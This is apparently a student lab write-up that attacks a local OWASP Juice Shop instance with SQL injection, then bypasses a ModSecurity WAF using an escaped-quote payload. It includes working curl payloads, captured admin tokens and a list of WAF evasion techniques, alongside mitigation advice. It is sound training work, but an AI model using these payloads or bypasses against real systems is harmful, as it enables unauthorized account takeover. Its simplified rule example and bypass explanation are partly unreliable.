# Lab 5 - Web Application Firewall (WAF)
#### NAME : YEHIA SOBEH
## ✅ Task 1: Deploy & Attack Juice Shop
🛠 Step-by-Step Overview:
### 🔹 Step 1: Pull and Run Juice Shop
```bash
docker pull bkimminich/juice-shop
```
```bash
docker run -d -p 3000:3000 --name juice-shop bkimminich/juice-shop
```
### 🔹 Step 2: SQL Injection via curl
```bash
curl -X POST http://localhost:3000/rest/user/login \
  -H "Content-Type: application/json" \
  --data '{"email":"'\'' OR 1=1--", "password":"any-password"}'
```
🟢 Token:
```json
{"authentication":{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiIiLCJwcm9maWxlSW1hZ2UiOiJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6MTU6NTEuNzAwICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6MTU6NTEuNzAwICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTc0NDQ3ODE2NH0.A95S0Zf7L5dNyN0Fcwz9SGi_ayrP4zPMNn0QzmVh_BD3ayMIpBU1nfn6l6zscLtxRPYmL5V1UyvKGNyotwm_ysFXAsAkxSiJJiwc6wmYvNJ604eTmo8JndHHL9d-P-F5wGUWvrtoZh0JF6mmU3AvLCsuHK-VltuEgOq1NqqzGKQ","bid":1,"umail":"admin@juice-sh.op"}}
```
✅ Successfully bypassed login using classic ' OR 1=1-- SQLi.

### 🔹 Step 3: Admin Access
Used the returned token to access:

```bash
curl -v -H "Authorization: Bearer <TOKEN>" \
  http://localhost:3000/rest/user/authentication-details/ -o admin_access.html
```
✅ Returned a list of users. Proof of admin privileges.

### 🔹 Step 4: Cleanup
```bash
docker stop juice-shop && docker rm juice-shop
```












## 🧱 Task 1 (Expanded): Using WAF with docker-compose
extended it by placing Juice Shop behind a WAF (ModSecurity) using OWASP CRS:

```yaml

# docker-compose.yml 
services:
  juice-shop:
    image: bkimminich/juice-shop
    networks:
      - app-network
    ports:
      - "3000:3000"

  modsecurity:
    image: owasp/modsecurity-crs:nginx
    environment:
      - BACKEND=http://juice-shop:3000
    ports:
      - "8080:8080"

    networks:
      - app-network


networks:
  app-network:
    driver: bridge
```
```bash
docker compose up -d
```

```bash
curl -X POST http://localhost:3000/rest/user/login \
  -H "Content-Type: application/json" \
  --data '{"email":"'\'' OR 1=1--", "password":"any-password"}'
```
🧪 Behavior Comparison:
Port 3000 (direct): SQLi ' OR 1=1-- succeeds ✅

🟢 Token:
```json
{"authentication":{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiIiLCJwcm9maWxlSW1hZ2UiOiJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6Mzg6MDYuNDYwICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6Mzg6MDYuNDYwICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTc0NDQ3OTU0M30.Bb7GoHWd2MIqifvgbG2vExLKbOigNfvA8rtEzIcr25ddLScvjHLRYfnPcIXXf3MoBQxoIIxUM57P8JUQISGdoXeQUTlctzl8ruyxherUuTL_LMka3xcQlCTo22lqyFlzHKwvdiPGrwm2rSpuHrbCr-80gJAsqXaBSab4Z4ntldI","bid":1,"umail":"admin@juice-sh.op"}}

```


```bash
curl -X POST http://localhost:8080/rest/user/login   -H
 "Content-Type: application/json"   --data '{"email":"'\'' OR 1=1--", "password":"any-password"}'

```
🟢 Response:
 ```html
<html>
<head><title>403 Forbidden</title></head>
<body>
<center><h1>403 Forbidden</h1></center>
<hr><center>nginx</center>
</body>
</html>
 ```bash
 
 ```
Port 8080 (WAF): SQLi ' OR 1=1-- blocked ❌ (HTTP 403)

🧾 Verified WAF logs:
```bash
docker-compose logs modsecurity | grep 'ModSecurity'
```
<!-- Confirmed the block by CRS rule 942100 using libinjection and pattern matching. -->







---


## ✅ Task 2: Explain How \' OR 1=1-- Bypasses the WAF
### 🧠 1. Understanding the WAF (ModSecurity with CRS)
The WAF (Web Application Firewall) inspects incoming requests before they reach the application. It uses regex patterns and libinjection to detect attacks like SQL injection.

Example rule from CRS:
```apache
SecRule ARGS "@rx ' OR 1=1" "id:942100,deny,status:403"
```
This rule will only match payloads containing:

```vbnet

' OR 1=1
If you escape the quote like \', the pattern won't match.
```
### 🪄 2. Why \ ' Bypasses Detection
📍WAF Layer:
Sees this payload:

```json
{"email":"\\' OR 1=1--", "password":"x"}
Parses it as:
\' OR 1=1--
```
Interprets the quote as escaped, so it doesn't match the pattern ' OR 1=1.

📍App Layer:
Many web frameworks or legacy PHP apps apply automatic backslash stripping (e.g., stripslashes()).

The payload becomes:
' OR 1=1--

Which is a valid SQLi payload.

🔥 Result:
SQL Injection bypasses WAF filtering and successfully authenticates as admin.

### 🔬 3. Demonstration
✅ Successful Bypass Using curl:
```bash
curl -v -X POST http://localhost:8080/rest/user/login \
  -H "Content-Type: application/json" \
  -d '{"email":"\\'\'' OR 1=1--", "password":"x"}'
```
🟢 Response:
```json
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sat, 12 Apr 2025 18:01:26 GMT
< Content-Type: application/json; charset=utf-8
< Content-Length: 811
< Connection: keep-alive
< Access-Control-Allow-Origin: *
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Feature-Policy: payment 'self'
< X-Recruiting: /#/jobs
< ETag: W/"32b-hxgLnFSjsA7X5Bv41iu/kfLnYxk"
< Vary: Accept-Encoding
< Access-Control-Allow-Headers: *
< 
* Connection #0 to host localhost left intact
{"authentication":{"token":"eyJ0eXAiOiJKV1QiLCJhbGciOiJSUzI1NiJ9.eyJzdGF0dXMiOiJzdWNjZXNzIiwiZGF0YSI6eyJpZCI6MSwidXNlcm5hbWUiOiIiLCJlbWFpbCI6ImFkbWluQGp1aWNlLXNoLm9wIiwicGFzc3dvcmQiOiIwMTkyMDIzYTdiYmQ3MzI1MDUxNmYwNjlkZjE4YjUwMCIsInJvbGUiOiJhZG1pbiIsImRlbHV4ZVRva2VuIjoiIiwibGFzdExvZ2luSXAiOiJ1bmRlZmluZWQiLCJwcm9maWxlSW1hZ2UiOiJhc3NldHMvcHVibGljL2ltYWdlcy91cGxvYWRzL2RlZmF1bHRBZG1pbi5wbmciLCJ0b3RwU2VjcmV0IjoiIiwiaXNBY3RpdmUiOnRydWUsImNyZWF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6NDM6MDYuNTcwICswMDowMCIsInVwZGF0ZWRBdCI6IjIwMjUtMDQtMTIgMTc6NDQ6MTUuNDMyICswMDowMCIsImRlbGV0ZWRBdCI6bnVsbH0sImlhdCI6MTc0NDQ4MDg4N30.xKtdCkAlBQiEUzXPEphC50ts99ayZhrv5vi8GQZNQAHfFS89wkEeQw_eW6gXWHaFnKBVZsMuCTJTJH7YPdy4RKnCUrw1NMwORvgdqa9MgyGCujVndqS05cHw8MIBnJdgqQLNS08uyQaeTAHwtBq80OWdjkSayvNWJW2fMFhpXRA","bid":1,"umail":"admin@juice-sh.op"}}
```


🔹 Step 3: Admin Access
Used the returned token to access:

```bash
curl -v -H "Authorization: Bearer <TOKEN>" \
  http://localhost:8080/rest/user/authentication-details/ -o bypass_waf.html
```
🟢 Response:
```bash
< HTTP/1.1 200 OK
< Server: nginx
< Date: Sat, 12 Apr 2025 18:05:11 GMT
< Content-Type: application/json; charset=utf-8
< Content-Length: 7860
< Connection: keep-alive
< Access-Control-Allow-Origin: *
< X-Content-Type-Options: nosniff
< X-Frame-Options: SAMEORIGIN
< Feature-Policy: payment 'self'
< X-Recruiting: /#/jobs
< ETag: W/"1eb4-k/eHBz/1LX3ocx7sOYt9+6ft3fU"
< Vary: Accept-Encoding
< Access-Control-Allow-Headers: *
< 
{ [7860 bytes data]
100  7860  100  7860    0     0   367k      0 --:--:-- --:--:-- --:--:--  383k
* Connection #0 to host localhost left intact
```

Contains a valid JWT token for the admin user.

### 🔍 4. Why This Works (Technically)
Layer	Input Seen	Action Taken
WAF	\' OR 1=1--	Escaped quote → doesn't match regex → allowed
App	' OR 1=1-- (after stripping)	Valid SQL → admin login → returns token
🧱 5. Other Common Bypass Techniques
Technique	Example	Notes
Escaped characters	\', \"	Bypass basic regex patterns
Unicode encoding	%27 OR 1=1--	%27 = '
Double URL encoding	%255C%27 OR 1=1--	%255C → %5C → \
Case variation	' oR 1=1--	Not all WAFs are case-insensitive
JSON nested injection	JSON inside JSON (e.g., APIs)	Many WAFs poorly handle JSON
🧹 6. Mitigation Tips
✅ Use parameterized queries (prepared statements).

🔒 Apply WAF with context-aware parsers (e.g., JSON parsers for API endpoints).

🛡️ Enable WAF logging and tuning to catch obfuscated payloads.

🚫 Avoid relying solely on regex patterns for detection.

✅ Conclusion
\' bypasses the WAF because escaping changes how the input is interpreted.

WAF sees escaped quotes, while the application sees unescaped input — leading to successful SQLi.

Proper backend sanitization and WAF tuning are essential to mitigate such attacks.





